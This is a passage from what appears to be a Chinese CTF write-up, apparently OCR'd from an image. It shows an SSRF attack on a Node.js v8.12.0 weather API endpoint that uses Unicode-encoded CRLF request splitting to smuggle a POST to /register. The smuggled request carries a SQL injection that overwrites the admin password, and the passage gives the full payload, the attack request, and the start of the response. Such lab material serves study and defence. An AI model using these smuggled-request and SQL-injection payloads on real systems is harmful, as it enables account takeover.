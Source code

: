    * 期望SSRF发起的请求

     ```http
     GET / HTTP/1.1
     Host:127.0.0.1
     
     POST /register HTTP /1.1
     Host:127.0.0.1
     Content-Type: application/x-www-form-urlencoded
     Content-Length: 29
     
     username=admin&password=23333')on CONFLICT(username) do UPDATE SET password='123';-- 
     
     GET /?whatever=/data/2.5/weather?q=aaa,bbb&units=metric&appid=xxx HTTP/1.1
     Host: 127.0.0.1
     Connection: close
     ```

   * 因此，endpoint参数需要为以下内容

     ```tex
     127.0.0.1/\u0120HTTP/1.1\u010D\u010AHost:127.0.0.1\u010D\u010A\u010D\u010APOST\u0120/register\u0120HTTP/1.1\u010D\u010AHost:127.0.0.1\u010D\u010AContent-Type:application/x-www-form-urlencoded\u010D\u010AContent-Length:95\u010D\u010A\u010D\u010Ausername=admin&password=23333')on CONFLICT(username)\u0120do\u0120UPDATE\u0120SET\u0120password='233';--\u0120\u010D\u010A\u010D\u010AGET\u0120/?whatever=
     ```

   * 在本地起环境(Nodejs v8.12.0)进行实验

     * 请求内容为

       ```http
       POST /api/weather HTTP/1.1
       Host: 127.0.0.1
       User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
       Accept: */*
       Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
       Content-Type: application/json
       Content-Length: 446
       Connection: close
       
       {"endpoint":"127.0.0.1/\u0120HTTP/1.1\u010D\u010AHost:127.0.0.1\u010D\u010A\u010D\u010APOST\u0120/register\u0120HTTP/1.1\u010D\u010AHost:127.0.0.1\u010D\u010AContent-Type:application/x-www-form-urlencoded\u010D\u010AContent-Length:95\u010D\u010A\u010D\u010Ausername=admin&password=23333')on CONFLICT(username)\u0120do\u0120UPDATE\u0120SET\u0120password='233';--\u0120\u010D\u010A\u010D\u010AGET\u0120/?whatever=","city":"whatever","country":"CN"}
       ```

     * 响应体仍旧为

       ```http
       HTTP/1.1 200 OK
       X-Powered-By: Express
       Content-Type: application/json; charset=utf-8
       Content-Length: 41
       ETag: W/"29-4bQRAc98pC0JUBjnvgzWMGnhfGA"
       Date: Tue, 18 May 2021 11:56:29 GMT
       Connection: close
       